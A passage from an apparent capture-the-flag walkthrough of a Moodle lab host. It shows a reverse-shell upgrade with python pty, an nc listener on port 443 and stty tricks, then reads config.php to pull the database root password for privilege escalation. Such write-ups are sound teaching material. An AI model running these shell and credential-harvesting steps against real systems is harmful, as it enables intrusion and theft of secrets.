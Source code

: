     $ python -c 'import pty;pty.spawn("bash")'
    www-data@teacher:/var/www/html/moodle/question$ 
    [1]+  Stopped                 rlwrap nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# rlwrap nc -lnvp 443
    www-data@teacher:/var/www/html/moodle/question$ reset
    reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@teacher:/var/www$ export TERM=screen
    

Now I’ve got a shell with tab completion and arrow keys.

## Privesc: www-data -> giovanni

### Find Database Password

In the website code I’ll find the database info for Moodle:

    
    
    www-data@teacher:/var/www/html/moodle$ cat config.php
    <?php  // Moodle configuration file
    
    unset($CFG);
    global $CFG;
    $CFG = new stdClass();
    
    $CFG->dbtype    = 'mariadb';
    $CFG->dblibrary = 'native';
    $CFG->dbhost    = 'localhost';
    $CFG->dbname    = 'moodle';
    $CFG->dbuser    = 'root';
    $CFG->dbpass    = 'Welkom1!';
    $CFG->prefix    = 'mdl_';
    $CFG->dboptions = array (
      'dbpersist' => 0,
      'dbport' => 3306,
      'dbsocket' => '',
      'dbcollation' => 'utf8mb4_unicode_ci',
    );
    
    $CFG->wwwroot   = 'http://10.10.10.153/moodle';
    $CFG->dataroot  = '/var/www/moodledata';
    $CFG->admin     = 'admin';
    
    $CFG->directorypermissions = 0777;
    
    require_once(__DIR__ . '/lib/setup.php');
    
    // There is no php closing tag in this file,
    // it is intentional because it prevents trailing whitespace problems!
    

### Connect to DB

